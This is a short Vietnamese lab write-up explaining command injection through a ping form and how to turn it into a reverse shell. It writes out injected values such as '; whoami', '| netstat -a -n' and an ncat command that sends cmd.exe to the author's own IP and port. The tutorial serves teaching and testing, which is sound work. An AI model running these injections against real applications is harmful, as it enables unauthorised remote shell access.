


Người thực hiện: Lê Trần Văn Chương.

Thời gian: 09/05/2022.

Mục lục:
- [Command Injection](#command-injection)
- [Back Connect - Reverse Shell](#back-connect---reverse-shell)

## Command Injection
- Command Injection là một cuộc tấn công trong đó mục tiêu là thực hiện các lệnh tùy ý trên hệ điều hành chủ thông qua một ứng dụng dễ bị tấn công. Các cuộc tấn công chèn lệnh có thể xảy ra khi một ứng dụng chuyển dữ liệu không an toàn do người dùng cung cấp (biểu mẫu, cookie, tiêu đề HTTP, v.v.) đến trình bao hệ thống. Trong cuộc tấn công này, các lệnh hệ điều hành do kẻ tấn công cung cấp thường được thực thi với các đặc quyền của ứng dụng dễ bị tấn công. Các cuộc tấn công chèn lệnh có thể xảy ra phần lớn do không đủ xác thực đầu vào.
- Ví dụ: 
    - Chức năng ping ip dưới đây.
    

    - Bây giờ, tôi sẽ thử chèn các command vào sau `localhost`. Đầu tiên, tôi sẽ thử dùng `; whoami` để xem thử nó có chạy không. Vì hiện lỗi, nên tôi tiếp tục chèn vào 1 lệnh khác `| whoami`, kết quả cũng ổn. Và tôi tiếp tục chèn các lệnh khác vào và kết quả như hình dưới.
    

## Back Connect - Reverse Shell
- Back Connect là một daemon tcp có khả năng chấp nhận và giữ nhiều kết nối. Ví dụ: Reverse Shell, cho các tương tác trong tương lai.
- Reverse Shell là một phiên trình shell được thiết lập trên một kết nối được khởi tạo từ một máy từ xa, không phải từ máy chủ của kẻ tấn công. Những kẻ tấn công khai thác thành công `remote command execution` có thể sử dụng `Reverse Shell` để có được phiên shell tương tác trên máy mục tiêu và tiếp tục cuộc tấn công của chúng. `Reverse shell` cũng có thể hoạt động trên NAT hoặc `firewall`. 

- Thông qua lỗi `Command Injection` ở trên. Chèn thêm `| netstat -a -n` để kiểm tra cổng nào đang mở (như hình dưới)

- Tiếp theo, chèn theo câu lệnh `| ncat 192.168.1.117 6969 -e cmd.exe` (vì 1 số vấn đề mà tôi sử dụng `local ip` để làm bài này) để có thể kết nối.

